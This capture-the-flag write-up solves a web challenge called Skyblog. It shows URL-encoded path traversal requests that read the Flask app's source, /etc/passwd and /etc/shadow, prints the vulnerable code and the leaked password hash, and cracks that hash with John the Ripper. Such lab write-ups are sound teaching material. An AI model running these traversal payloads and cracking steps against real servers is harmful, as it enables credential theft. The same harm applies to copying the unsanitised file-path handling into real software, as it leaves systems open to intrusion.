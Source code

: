 # Skyblog

**Web, 250 points**

> I have an awesome idea ! Yes i do !
> I am launching a new blog platform.
> It is going to be the new Skyblog, better and more profitable than Medium.
> I'm going to be rich !
>
> You can preview the beta over there : http://challenges.urlab.be:16904
>
> *Note: this is a web challenge. You should be able to load a website in a normal browser. If it's not the case, please warn us. (The challenge is unstable due to networking problems)*
>
> **WARNING: do NOT use automated tools like wapiti or nikto**


![screenshot](https://github.com/UrLab/ctf-writeups/raw/master/2017/qualifiers/web/skyblog/screenshot.png)

## Solution

You have a website of a blog. When you click on a blog post, you get an url like this : `http://challenges.urlab.be:16904/post/1%20-%20Hello%20World.md`. You have to try some local file injection by manipulation the url.

A first try could be to try `http://challenges.urlab.be:16904/post/../../../../etc/passwd`. But you have the problem that your browser simplifies the url to `http://challenges.urlab.be:16904/../../../etc/passwd`. You have to urlencode every `/` to `%2F`.

## Optionnal (goto "users passwords")
After some research you try some common file names and find `/post/..%2F/main.py`
You find the source code of the application :

    from flask import Flask
    from flask import render_template
    import glob
    import os
    import markdown

    app = Flask(__name__)

    #### The flag is not here. My guess is that you are looking for a user password :)


    @app.route(&#34;/&#34;)
    def hello():
        posts = [os.path.splitext(os.path.basename((x)))[0] for x in glob.glob(&#34;posts/*.md&#34;)]
        return render_template(&#39;hello.html&#39;, posts=posts)


    @app.route(&#34;/post/&lt;path:title&gt;&#34;)
    def view_post(title):
        with open(os.path.join(&#34;./posts&#34;, title)) as fd:
            raw = fd.read()
            html = markdown.markdown(raw)
            return render_template(&#39;post.html&#39;, post=html, title=title, raw=raw)

    if __name__ == &#34;__main__&#34;:
        app.run(debug=False, host=&#34;0.0.0.0&#34;)

So yes, definitely it's a local file inclusion but the flag is not here :/

## Users passwords

You are looking for a flag/password. You try to get access to the file system root then `/etc/password`.
We can try `http://challenges.urlab.be:16904/post/..%2Fetc%2Fpasswd` but it does not work.

Let's try one directory higher : `http://challenges.urlab.be:16904/post/..%2F..%2Fetc%2Fpasswd`.
It works but does not give any password.

We then try http://challenges.urlab.be:16904/post/..%2F..%2Fetc%2Fshadow`. The website gives us :

    root:*:17185:0:99999:7:::
    daemon:*:17185:0:99999:7:::
    bin:*:17185:0:99999:7:::
    sys:*:17185:0:99999:7:::
    sync:*:17185:0:99999:7:::
    games:*:17185:0:99999:7:::
    man:*:17185:0:99999:7:::
    lp:*:17185:0:99999:7:::
    mail:*:17185:0:99999:7:::
    news:*:17185:0:99999:7:::
    uucp:*:17185:0:99999:7:::
    proxy:*:17185:0:99999:7:::
    www-data:*:17185:0:99999:7:::
    backup:*:17185:0:99999:7:::
    list:*:17185:0:99999:7:::
    irc:*:17185:0:99999:7:::
    gnats:*:17185:0:99999:7:::
    nobody:*:17185:0:99999:7:::
    systemd-timesync:*:17185:0:99999:7:::
    systemd-network:*:17185:0:99999:7:::
    systemd-resolve:*:17185:0:99999:7:::
    systemd-bus-proxy:*:17185:0:99999:7:::
    _apt:*:17185:0:99999:7:::
    flag:$1$AAPF0FVA$lUtYCUZPGuNzJrJ9bAGK10:17215:0:99999:7:::

The `flag:$1$AAPF0FVA$lUtYCUZPGuNzJrJ9bAGK10:17215:0:99999:7:::` looks like the flag !

## Password cracking

But no, it's not the flag ^^

You still have to crack the password hash.
You then crack it with John the ripper and the dictionary we provided.

    john a-file-with-the-hash.txt --wordlist=Project/ctf-challenges/dict.txt
    john a-file-with-the-hash.txt --show

After a few minutes you get back the flag : `pelandosi`
